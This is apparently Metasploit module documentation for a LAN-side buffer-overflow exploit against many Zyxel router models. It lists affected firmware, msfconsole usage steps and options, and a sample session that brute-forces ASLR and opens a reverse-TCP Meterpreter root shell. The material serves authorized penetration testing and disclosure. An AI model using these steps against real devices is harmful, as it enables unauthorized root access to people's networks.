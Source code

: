 ## Vulnerable Application

This module exploits a buffer-overflow in multiple Zyxel devices. The vulnerabilitiy stems from missing string length checks.
The vulnerability can only be exploited from the LAN side, but does not require authentication. As ASLR is activated, the libc address will be bruteforced.
Thus the webserver will crash until successfull exploitation. On average this process takes 20 minutes.

This vulnerability was discovered by Steffen Robertz, Gerhard Hechenberger, Stefan Viehboeck and Thomas Weber of the SEC Consult Vulnerability Lab in Vienna.
The full writeup of all vulnerabilities is available here: [https://sec-consult.com/vulnerability-lab/advisory/multiple-critical-vulnerabilities-in-multiple-zyxel-devices/]


| Device       | Firmware  |
| ------------ | --------- |
| AMG1302-T11C | EOL       |
| VMG3925-B10C | EOL       |
| VMG8924-B10D | EOL       |
| VMG1312-B10D | EOL       |
| VMG3312-T20A | EOL       |
| VMG3625-T20A | EOL       |
| VMG3925-B10B | EOL       |
| VMG3925-B10C | EOL       |
| VMG3925-B30C | EOL       |
| VMG3926-B10A | EOL       |
| VMG5313-B10B | EOL       |
| VMG5313-B30B | EOL       |
| VMG8623-T50A | EOL       |
| VMG8823-B10B | EOL       |
| VMG8823-B30B | EOL       |
| VMG8823-B50B | EOL       |
| VMG8823-B60B | EOL       | 
| VMG8924-B10D | EOL       |
| VMG8924-B30D | EOL       |
| PMG5317-T20A | EOL       |
| DX3301-T0 | V5.50(ABVY.3)C0 |
| DX5401-B0 | V5.17(ABYO.1)C0 |
| EMG3525-T50B | EMEA - V5.50(ABPM.6)C0 |
| EMG3525-T50B | S. America - V5.50(ABSL.0)b12 |
| EMG5523-T50B | EMEA - V5.50(ABPM.6)C0 |
| EMG5523-T50B | S. America - V5.50(ABSL.0)b12 |
| EMG5723-T50K | V5.50(ABOM.7)C0 |
| EX3301-T0 | V5.50(ABVY.3)C0 |
| EX5401-B0 | V5.17(ABYO.1)C0 |
| EX5501-B0 | V5.17(ABRY.2)C0 |
| LTE3301-PLUS | V1.00(ABQU.3)C0 |
| LTE7240-M403 | V2.00(ABMG.4)C0 |
| VMG1312-T20B | V5.50(ABSB.5)C0 |
| VMG3625-T50B | V5.50(ABPM.6)C0 |
| VMG3927-B50A | V5.17(ABMT.6)C0 |
| VMG3927-B60A | V5.17(ABMT.6)C0 |
| VMG3927-T50K | V5.50(ABOM.7)C0 |
| VMG4005-B50A | V5.15(ABQA.2)C0 |
| VMG8623-T50B | V5.50(ABPM.6)C0 |
| VMG8825-B50A | V5.17(ABMT.6)C0 |
| VMG8825-B50B | V5.17(ABNY.7)C0 |
| VMG8825-B60A | V5.17(ABMT.6)C0 |
| VMG8825-B60B | V5.17(ABNY.7)C0 |
| VMG8825-T50K | V5.50(ABOM.7)C0 |
| XMG3927-B50A | V5.17(ABMT.6)C0 |
| XMG8825-B50A | V5.17(ABMT.6)C0 |
| VPN2S | V1.20(ABLN.2)_00210319C1 |
| AX7501-B0 | V5.17(ABPC.1)C0 |
| EP240P | V5.40(ABVH.1)C0 |
| PMG5317-T20B | V5.40(ABKI.4)C0 |
| PMG5617GA | V5.40(ABNA.2)C0 |
| PMG5622GA | V5.40(ABNB.2)C0 |
| WX3100-T0 | V5.50(ABVL.1)C0 |
| WX3401-B0 | V5.17(ABVE.1)C0 |
| WSQ50 (Multy X) | V2.20(ABKJ.7)C0 |
| WSQ60 (Multy Plus) | V2.20(ABND.8)C0 |

## Verification Steps
 Follow these steps to exploit the target:
 
  1. Connect to a target on the LAN interface
  2. Start msfconsole
  3. Do: `use exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce`
  4. Set RHOST, LHOST and SRVHOST
  5. Do `check`
  6. Do: `run`
  7. You should get a shell. On average this will take 20 minutes.
## Options
```
Module options (exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host
   

Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```



## Scenarios
```
msf6 > use exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce
[*] Using configured payload linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set LHOST XXX.XXX.XXX.XXX
LHOST => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set RHOSTS XXX.XXX.XXX.XXX
RHOSTS => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > check
[+] XXX.XXX.XXX.XXX:80 - The target is vulnerable.
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set SRVHOST XXX.XXX.XXX.XXX
SRVHOST => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > run

[*] Started reverse TCP handler on XXX.XXX.XXX.XXX:4444
[*] Attempting to exploit VMG3312-T20A <= EOL
[*] Starting up our web service on XXX.XXX.XXX.XXX:8080 ...
[*] Using URL: http://XXX.XXX.XXX.XXX:8080/o
[*] Going to bruteforce ASLR, this will take a while...
[*] Trying to overflow the buffer, attempt 1
[*] Trying to overflow the buffer, attempt 2
[*] Trying to overflow the buffer, attempt 3
[*] Trying to overflow the buffer, attempt 4
[*] Trying to overflow the buffer, attempt 5
[*] Trying to overflow the buffer, attempt 6
[*] Trying to overflow the buffer, attempt 7
[*] Trying to overflow the buffer, attempt 8
[*] Trying to overflow the buffer, attempt 9
[*] Trying to overflow the buffer, attempt 10
[...]
[*] Trying to overflow the buffer, attempt 135
[*] Trying to overflow the buffer, attempt 136
[*] Trying to overflow the buffer, attempt 137
[*] Trying to overflow the buffer, attempt 138
[*] Trying to overflow the buffer, attempt 139
[+] XXX.XXX.XXX.XXX:80 - Sending executable to the router
[+] XXX.XXX.XXX.XXX:80 - A shell should connect soon!
[*] Sending stage (908480 bytes) to XXX.XXX.XXX.XXX
[*] Meterpreter session 1 opened (XXX.XXX.XXX.XXX:4444 -> XXX.XXX.XXX.XXX:55253) at 2022-07-24 19:03:41 +0200
[*] Server stopped.

meterpreter > shell
Process 9871 created.
Channel 1 created.
id
uid=0(root) gid=0
```

